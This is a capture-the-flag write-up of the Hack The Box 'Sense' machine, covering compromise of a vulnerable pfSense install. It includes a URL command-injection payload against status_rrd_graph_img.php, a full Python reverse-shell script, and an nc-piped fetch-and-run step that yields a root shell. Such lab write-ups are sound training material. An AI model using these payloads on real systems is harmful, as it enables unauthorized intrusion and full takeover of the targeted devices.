

---
tags:
  - OpenBSD
  - pfsense
  - CVE-2016-10709
  - CVE-2014-4688
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Sense
- Reference : https://alamot.github.io/sense_writeup/
- Solved : 2025.2.20. (Thu) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Found ports 80 (HTTP) and 443 (HTTPS) open.
    - **HTTP Service**:
        - Discovered `lighttpd/1.4.35` redirecting HTTP traffic to HTTPS.
        - Identified `index.html` revealing a "DragonFly BSD" installation page.
        - Used Gobuster to enumerate directories, discovering `changelog.txt` and `system-users.txt`.
        - Found default credentials: `rohit:pfsense`.
    
2. **Web Exploitation**
    - **Authentication Bypass**:
        - Logged into the pfSense web panel using discovered credentials.
    - **Vulnerability Identification**:
        - Version `2.1.3-RELEASE` found vulnerable to `CVE-2014-4688` (RCE).
        - Initial Python exploit attempt failed.
    - **Manual Command Injection**:
        - Identified `status_rrd_graph_img.php` as vulnerable to command injection.
        - Used Burp Suite to inject payload via `database` parameter.
        - Verified command execution by writing a file in `/usr/local/www`.
    
3. **Privilege Escalation**
    - **Reverse Shell Execution**:
        - Uploaded a Python reverse shell script using `nc`.
        - Triggered execution via `nc` piping into `python`.
        - Established a reverse shell as `root`.

### Key Techniques:

- **Directory Enumeration**: Used Gobuster to find sensitive files.
- **Credential Discovery**: Extracted default credentials from `system-users.txt`.
- **Command Injection**: Exploited `status_rrd_graph_img.php` for remote code execution.
- **Reverse Shell Execution**: Used `nc` and `python` to gain root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.60
Performing quick port scan on 10.10.10.60...
Found open ports: 80,443
Performing detailed scan on 10.10.10.60...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 23:35 MST
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.20 seconds
```

Only web ports(80, 443) are open.

### http(80) / https(443)



It seems that the connection to port 80 is redirected to port 443.


When I tested `index.html`, I was able to see "DragonFly BSD" installation page.
The link below is redirect us to `dfuife.cgi`, but it doesn't do anything apparently.

I tested with multiple extensions, and found out that `html`, and `php` exist.
I used `gobuster` to check what pages exist behind.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.60
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/] 
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]
```

It founds several pages including `changelog.txt` and `system-users.txt`.
Let's take a look at these pages.


It's saying that 2 out of 3 vulnerabilities are patched, and one is still remaining.


This page reveals a user credential : `rohit` : `pfsense` (pfsense's default password)
(I tested with several combinations including `rohit`,`Rohit`... `pfsense` `Pfsense`...)


From the dashboard, I could find its version : 2.1.3-RELASE

# Shell as `root`

##### CVE-2014-4688 (Failed)

I googled with this version, and found one RCE CVE.


Since the pfsense is running on https, I need to add `verify=False` option to request.

```python
# POST login request with data, cookies and header
   login_request = client.post(login_url, data=encoded_data, 
   cookies=client.cookies, headers=headers, verify=False)
else:
   print("No CSRF token!")
   exit()
```


```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.6 --lport 9000 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
```

However, the exploitation didn't work..

##### Manual exploitation

Instead, I found an article explaining command injection vulnerabilities : https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/

Among the 3 listed vulnerable php files, I focused on `status_rrd_graph.php` which is originally used in the previous exploit.

I can access to this function from the menu (status -> RRD Graphs).


The graph visualized at the front is actually an image.


Here I can copy the link path.
Then, I can capture this request with Burpsuite, and modify the GET parameter with command injection payload.


```http
GET /status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"CMD+INJECT">cmd.txt 
```

This allows command execution on the system, and write a file with "CMD INJECT" text on `/usr/local/www` directory which is same with webroot.


Then, I can see that the exploitation works.

Since it's limited to use various commands through URL parameter, I prepared payload as `rshell.py` and make it run by the target server through `nc` connection.
Here is the payload for spawning reverse shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.py 
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.6", 9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

This cmd is supposed to open a reverse shell on port 9001.
Then, I opened a listener to transfer this payload.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000 < rshell.py
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 1857
```

Also, since the payload is supposed to open a reverse shell on port 9001, I opened another listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001    
listening on [any] 9001 ...
```


Then, I ran `nc 10.10.14.6 9000 | python` which is supposed to take the payload commands and run them locally.

When I exist the listener on port 9000, `python` is executed, and the reverse shell on port 9001 is established.

```vbnet
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001    
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 49401
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# whoami
root
```

I got a root shell!